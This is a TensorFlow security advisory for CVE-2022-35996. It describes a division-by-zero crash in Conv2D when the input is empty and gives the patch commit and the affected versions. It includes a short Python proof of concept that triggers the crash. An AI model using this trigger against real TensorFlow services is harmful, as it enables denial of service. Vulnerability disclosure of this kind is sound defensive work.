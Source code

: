 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-124.md
## TFSA-2022-124: Floating point exception in `Conv2D`

### CVE Number
CVE-2022-35996

### Impact
If `Conv2D` is given empty `input` and the `filter` and `padding` sizes are valid, the output is all-zeros. This causes division-by-zero floating point exceptions that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np
with tf.device("CPU"): # also can be triggerred on GPU
   input = np.ones([1, 0, 2, 1])
   filter = np.ones([1, 1, 1, 1])
   strides = ([1, 1, 1, 1])
   padding = "EXPLICIT"
   explicit_paddings = [0 , 0, 1, 1, 1, 1, 0, 0]
   data_format = "NHWC"
   res = tf.raw_ops.Conv2D(
       input=input,
       filter=filter,
       strides=strides,
       padding=padding,
        explicit_paddings=explicit_paddings,
       data_format=data_format,
  )
```

### Patches
We have patched the issue in GitHub commit [611d80db29dd7b0cfb755772c69d60ae5bca05f9](https://github.com/tensorflow/tensorflow/commit/611d80db29dd7b0cfb755772c69d60ae5bca05f9).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.
